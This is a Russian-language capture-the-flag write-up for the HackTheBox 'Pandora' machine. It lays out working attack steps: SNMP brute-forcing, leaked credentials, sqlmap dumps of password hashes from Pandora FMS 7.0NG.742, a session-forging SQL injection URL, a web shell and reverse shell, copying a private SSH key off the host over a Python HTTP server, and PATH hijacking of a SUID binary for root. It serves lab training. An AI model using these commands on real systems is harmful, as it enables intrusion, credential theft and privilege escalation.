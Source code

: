 спасибо [хактриксам](https://book.hacktricks.xyz/pentesting/pentesting-snmp)

на 80 порту ничего интересного не было, поискал директории, поигрался с формой для фидбека и пошарил по /assets

сканируем udp порты, топ 20 т.к. сканирование и так супер медленное

`sudo nmap -sU --top-ports=20 panda.htb`

сканируем открытый порт, висит snmp

`sudo nmap -sUV -T4 -p 161 panda.htb`

брутим community strings

`sudo nmap -sU -p 161 --script snmp-brute panda.htb --script-args snmp-brute.communitiesdb=./wordlists/SecLists/Discovery/SNMP/common-snmp-community-strings.txt`

енумератим snmp

`snmpwalk -v 1 -c <string> panda.htb .1`

креды юзера

`-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23`

`daniel:HotelBabylon23`

я доискался до директории `/var/www/pandora`

`cat /etc/hosts`

вывод

`127.0.0.1 localhost.localdomain pandora.htb pandora.pandora.htb`

`127.0.1.1 pandora`

создаем динамический туннель, чтобы подключиться к `localhost.localdomain/pandora_console`

`ssh -D 9090 daniel@panda.htb`

или

`ssh -L 80:localhost:80 daniel@panda.htb`

прокси socks5

заходим и видим версию pandora fms v7.0NG.742_FIX_PERL2020

гуглим pandora fms 742 vuln

https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained

ого, скульмап овер прокси

`sqlmap --url "http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" --random-agent --proxy socks5://127.0.0.1:9090`

доходим до такого

`sqlmap --url "http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" --random-agent --proxy socks5://127.0.0.1:9090 -D pandora -T tpassword_history --dump`

получаем хеши

`matt:f655f807365b6dc602b31ab3d6d43acc`

`daniel:76323c174bd49ffbbdedf678f6cc89a6`

`--os-shell` не сработал

есть еще интересное название `tsessions_php`

тырим куку и вставляем у себя в браузере

`g4e01qdgk36mfdh90hvcc54umq,"id_usuario|s:4:""matt"";alert_msg|a:0:{}new_chat|b:0;",1638796349`

у мэтта нет доступа к загрузке файлов, так что гуглим дальше

pandora fms 742 exploit

https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py

`http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO%27`

хороший url

теперь есть доступ к админской панели

загружаем туда шелл

делаем ревшелл

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`export TERM=xterm`

логинимся чз ssh

`ssh-keygen -t rsa`

`cat .ssh/id_rsa.pub > .ssh/authorized_keys`

`chmod 700 .ssh`

`chmod 600 .ssh/authorized_keys`

`python3 -m http.server 1233 &`

на своей машине

`http://0.0.0.0:1233/.ssh/id_rsa`

`chmod 600 id_rsa`

`ssh -i id_rsa matt@10.10.11.136`

дальше suid бинари...

`find / -user root -perm -4000 -exec ls -ldb {} \; >/tmp/suidfiles`

`pandora_backup` юзает `tar`

делаем фейк `tar`

`echo "/bin/bash" > tar`

`chmod +x tar`

`export $PATH=$(pwd):$PATH`

запускаем бинарь и получаем рут

`/usr/bin/pandora_backup`
